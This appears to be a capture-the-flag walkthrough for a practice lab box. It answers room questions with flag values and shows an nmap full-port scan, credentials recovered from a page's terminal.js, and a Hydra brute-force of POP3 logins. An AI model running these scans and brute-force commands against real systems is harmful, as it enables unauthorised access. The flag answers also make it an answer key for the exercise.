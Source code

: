 ### Use nmap to scan the network for all ports. How many ports are open?
The Nmap scna shows that 4 ports are open.
```BASH
sudo nmap -sV -p- $ip
```
![image](https://github.com/user-attachments/assets/511e7d14-e345-48d8-91ec-2f262840b7e7)


<pre>4</pre>

<span style="line-height:0.5;">&nbsp;</span>

### Who needs to make sure they update their default password? Whats their password?
Using browser’s devs tools in the Inspector tab reveals that there is JavaScript file named `terminal.js`.  

![image-1](https://github.com/user-attachments/assets/6d7bfcd5-5510-42e1-a8b7-1b1aa5c35351)

Open terminal.js in debbuger tab. You will find a note left by Boris to Natalya, including credentials.

![image-2](https://github.com/user-attachments/assets/8aeb9e6b-4e8b-4cae-b694-1832adcfb4cd)

<pre>boris</pre>

Use [CyberChef](https://gchq.github.io/CyberChef/) to decode the string found in the script.

The decoded password is:  

![image-3](https://github.com/user-attachments/assets/64936586-cf63-495c-b578-fa07885ce758)

<pre>InvincibleHack3r</pre>

<span style="line-height:0.5;">&nbsp;</span>


### If those creds don't seem to work, can you use another program to find other users and passwords? Maybe Hydra? Whats their new password?
First, try logging into POP3 using telnet:  

```BASH
telnet $ip 55007
```

If logging in with the current credentials shows that you lack privileges (or you receive an error), proceed with brute-force. Use Hydra to brute-force the POP3 credentials for user boris:
```BASH
hydra -l boris -P /usr/share/wordlists/seclists/Passwords/Default-Credentials/default-passwords.txt $ip -s 55007 pop3
```

<pre>secret1!</pre>
